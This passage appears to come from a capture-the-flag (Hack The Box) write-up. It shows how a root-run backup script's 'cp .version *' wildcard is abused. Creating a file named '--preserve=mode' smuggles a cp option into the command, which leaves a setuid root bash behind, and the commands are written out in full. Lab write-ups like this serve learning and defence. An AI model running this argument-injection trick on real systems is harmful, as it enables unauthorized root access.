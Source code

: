 And the script runs:

```bash
cp .version * /etc/bind/named.bindmgr/
```

The wildcard is evaluated before running the command: if we add a file named
after the option, it will actually appear in the call as a flag!!

```bash
# create
echo _ > $'--preserve=mode'
sudo /usr/local/bin/bindmgr.sh
ls -lah /etc/bind/named.bindmgr/
# -rwsr-sr-x 1 root bind 1.2M Sep 15 15:00 bash
```

I love this! :)

[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response
